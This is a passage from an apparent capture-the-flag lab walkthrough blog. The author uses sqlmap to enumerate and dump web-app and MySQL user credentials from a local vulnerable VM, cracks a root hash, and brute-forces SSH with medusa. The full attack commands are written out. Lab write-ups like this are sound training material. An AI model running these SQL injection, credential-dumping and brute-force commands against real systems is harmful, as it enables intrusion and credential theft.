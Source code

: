 after testing a few sql queries i didnt have much success so i thought to fire up sqlmap and watch some magic happens with hopefully some of the parameters...

>root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms --dbs

and we get the databases oh yeah!

[![gate](https://trickster0.files.wordpress.com/2015/10/gate.png)](https://trickster0.files.wordpress.com/2015/10/gate.png)

now lets get the tables for the webapp db

>root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms -D Webapp --tables

We can see a nice table called Users so lets see the columns of it :D

>root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms -D Webapp -T Users --columns

so we saw some interesting columns but lets choose the best of them...lets get the dumps now :D

>root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms -D Webapp -T Users -C id,username,password --dump


[![d](https://trickster0.files.wordpress.com/2015/10/d.png)](https://trickster0.files.wordpress.com/2015/10/d.png)

but wait we havent finished yet!! we should check the mysql db too!!!
running our sqlmap agains for the specifics tables and columns we get these dumps :D

>root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms -D mysql --tables
root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms -D mysql -T User --columns
root@kali:~/Desktop# sqlmap -o -u "http://192.168.124.138:1337/978345210/index.php" --forms -D mysql -T user -C User,Password --dump


[![u](https://trickster0.files.wordpress.com/2015/10/u.png)](https://trickster0.files.wordpress.com/2015/10/u.png)

checking the hash for debian didnt work out but it for the root one because after checking it on crackstation we got that the password for this hash is actually 
**darkshadow**

after logging in with the credentials we got already on the gates of mordor i got trolled with this :/

[![lotr](https://trickster0.files.wordpress.com/2015/10/lotr.png)](https://trickster0.files.wordpress.com/2015/10/lotr.png)

but after this i thought hey lets try to login on ssh so i crafted real quick a list of users and another list with passwords from the dumps we got and run my favourite medusa

>medusa -h 192.168.124.138 -U user -P pass -M ssh


[![m](https://trickster0.files.wordpress.com/2015/10/m.png)](https://trickster0.files.wordpress.com/2015/10/m.png)
